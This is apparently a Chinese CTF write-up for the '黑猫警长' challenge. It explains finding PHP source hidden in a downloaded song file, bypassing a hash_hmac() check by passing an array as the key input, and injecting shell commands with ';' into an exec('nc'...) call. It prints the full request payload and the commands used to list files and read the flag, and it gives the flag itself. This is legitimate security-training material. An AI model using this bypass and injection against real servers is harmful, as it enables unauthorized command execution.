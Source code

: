 ```yaml
---
layout: post
title:  "[黑猫警长]解题笔记"
date:   2020-12-25 20:00:00 +0800
categories: CTF
---
```


### 考察点

- 文件隐写
- `hash_hmac()` 函数漏洞，数组绕过

### 分析

网站中只有一个黑猫警长的~~性感~~写真和一个播放器，简单查看一下源代码发现一行注释：

```HTML
</header>
<!--都说听听歌了！-->
谁！竟敢踩我一只耳的尾巴！
```

那就下载歌曲下来看看里面有什么吧..

下载完用Winhex打开分析一下，文件的尾部发现了PHP的代码。

![image-20201226002627208](..\images\image-20201226002627208.png)

把代码提取出来分析：

```php
if(empty($_POST['Black-Cat-Sheriff']) || empty($_POST['One-ear'])){
    die('谁！竟敢踩我一只耳的尾巴！');
}
$clandestine = getenv("clandestine");
// 获取环境变量clandestine
if(isset($_POST['White-cat-monitor']))
    $clandestine = hash_hmac('sha256', $_POST['White-cat-monitor'], $clandestine);
// 生成带有密钥的哈希
// hash_hmac ( string $algo , string $data , string $key [, bool $raw_output = false ] ) : string
// algo 	  哈希算法名称 
// data 	  要进行哈希运算的消息
// key  	  使用 HMAC 生成信息摘要时所使用的密钥
// raw_output 设置为 true 输出原始二进制数据， 设置为 false 输出小写 16 进制字符串
$hh = hash_hmac('sha256', $_POST['One-ear'], $clandestine);
if($hh !== $_POST['Black-Cat-Sheriff']){
    die('有意瞄准，无意击发，你的梦想就是你要瞄准的目标。相信自己，你就是那颗射中靶心的子弹。');
}
echo exec("nc".$_POST['One-ear']);
```

大概就是要想办法求出`clandestine`的值，让传入的Black-Cat-Sheriff与加密后的One-ear相同，从而执行下面的命令。然后nc弹shell拿flag。但是想了半天不知道该怎么办，于是从网上寻找方法~~(找师傅们的wp)~~。然后发现一个神奇的数组，当在`$data`处传进去数组的时候，`clandestine`即密钥会被置为NULL，这样便绕过了加密。

![image-20201226122224809](..\images\image-20201226122224809.png)

剩下的就是命令构造，命令执行，可以用`;`截断它的命令

![image-20201226122112759](..\images\image-20201226122112759.png)

```php
string(64) "67f5ea2e063353fe3a219e35fa13c15cbf73df6fc6cb89fa0c2eecb50a7d027e"
```

这样就可以拼出payload

```
Black-CatSheriff=67f5ea2e063353fe3a219e35fa13c15cbf73df6fc6cb89fa0c2eecb50a7d027e&One-ear=;ls&White-cat-monitor[]=0
```

![image-20201226123653335](..\images\image-20201226123653335.png)

命令执行了，但是没有发现flag在哪里。八嘎！

后来看了[wkr](https://www.wkr.moe/)的[wp](https://www.wkr.moe/ctf/dayattack/424.html)，然后自己测试了一下，发现`echo exec(ls);`只返回一个值，所以这里只有一个`vendor`，应该把语句换成``;echo `ls` `` 这样就能显示出目录了。

![image-20201226130100978](..\images\image-20201226130100978.png)

命令换成`;cat flag.php` flag到手

**flag:GWHT{y0u_mu3t_p@y_atTentiou_!0_lt}**

